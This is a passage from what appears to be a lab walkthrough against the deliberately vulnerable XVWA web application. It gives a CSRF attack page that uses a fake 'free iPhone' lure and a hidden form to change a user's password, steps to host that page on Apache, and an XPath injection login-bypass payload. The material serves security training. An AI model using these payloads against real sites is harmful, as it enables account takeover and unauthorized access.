    **POST method**

   ```
   <html>
   <body>
   <center>
   	<h1>A chance to win a free iPhone</h1>
   	<form method="POST" action="http://192.168.101.112/xvwa/vulnerabilities/csrf/">
   		<input type="hidden" value="test" name="passwd">
   		<input type="hidden" value="test" name="confirm">
   		<input type="submit" value="I want to participate">
   	</form>
   </center>
   </body>
   </html>
   ```

   

3. Start Apace service

   ```
   # systemctl start apache2
   ```

4. Browse the csrf.html and click the "I want to participate" link

   ```
   http://[kali machine ip]/csrf.html
   ```



## XPATH INJECTION
+ XPath (XML Path Language) is a query language for selecting nodes from an XML document.

* XPATH Injection is similar to SQL Injection which occurs when XML document is used as data store.

* Attack logic is almost similar to SQL Injection.

* XPATH doesn’t have any restrictions when querying the XML file. Therefore it is possible to retrieve data from the entire XML document.

**Bookshelf exploitation**

1. Browse Bookshelf and login as "' or 'x'='x"
